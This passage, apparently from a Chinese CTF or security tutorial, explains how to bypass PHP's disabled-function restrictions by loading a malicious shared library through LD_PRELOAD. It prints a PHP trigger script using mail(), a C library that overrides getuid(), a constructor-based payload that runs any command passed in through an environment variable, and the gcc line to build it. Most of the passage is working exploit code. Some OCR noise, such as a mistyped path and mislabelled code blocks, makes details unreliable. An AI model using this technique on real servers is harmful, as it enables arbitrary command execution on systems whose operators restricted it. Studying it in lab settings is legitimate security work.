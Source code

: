 ```objectivec
}
```

hack.php

```php
<?php
putenv(LD_PRELOAD=/vat/tmp/hack.so);
mail('','','','');
?>
```

首先我们会include hack.php执行

然后就会设置共享库 hack.so  然后执行 mail

共享库的作用就是 定义了 getuid()这个函数 我们就可以覆盖掉之前的函数

因为LD_PRELOAD就是为了有选择的使用相同函数 就是可以在函数一样的情况下 指定选择

这样 我们判断当前环境变量 然后取消掉 设置payload即可

这样现在的getuid()函数就是 system("ls / -> /tmp/flag")

### 第二种写法

这种写法 就是大佬的写法了

首先我们要知道函数

```delphi
__attribute__((constructor))

这个修饰符可以让其修饰的函数在 main函数启动前就启动

如果出现在共享对象中 如果共享被启动 就立马执行
```



```cpp
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
 
__attribute__((constructor)) void payload(){
    unsetenv(LD_PRELOAD);
    const char* cmd=getenv("CMD");
    system(cmd);
}
```

这里通过php中的cmd变量 传递到so文件中 然后被获取 执行了cmd

编译方法都是一样的

```vbnet
gcc -shared -fPIC hack.c -o hack.so
```